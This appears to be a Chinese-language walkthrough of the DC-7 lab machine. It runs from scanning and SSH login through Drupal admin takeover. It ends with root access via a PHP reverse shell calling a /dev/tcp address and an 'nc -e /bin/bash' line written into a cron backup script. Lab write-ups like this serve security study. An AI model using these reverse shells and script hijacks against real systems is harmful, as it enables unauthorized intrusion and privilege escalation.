

# DC-7
nmap扫描
```
nmap -A -T4 192.168.111.140
```

访问80端口
Dprual站点,目录扫描也没什么有价值的东西,
这次要用到社工信息收集
页面下方作者署名,再github上找到仓库

发现一段代码

可能存在文件包含漏洞
访问发现404,那么可以利用,但被限制还是不行
发现敏感文件

3306没有对外开放
试一下ssh登录

成功登录
看了下suid,没有什么可以利用的

提示一封邮件信息
打开查看,发现.sh执行文件/opt/scripts/backups.sh

ls -al查看

能用来提权,但是需要网站权限ww-data
那么需要降权,目前是普通用户
一个思路:上传webshell到网站目录,获得www-data权限
修改后台密码
mysql连接数据库还不行

看了一下,要用drush命令修改
```
drush user-password admin --password="admin"
```
进入后台
来到moudle
添加模块包
```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```


安装成功后启用


添加信页面,写入反弹shell
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");
?>
```
选择php code模块

访问触发代码


获得www权限后修改脚本文件,等待计划任务的执行,就能获取root权限
```
echo 'nc -e /bin/bash 192.168.111.128 5555' >backups.sh
```


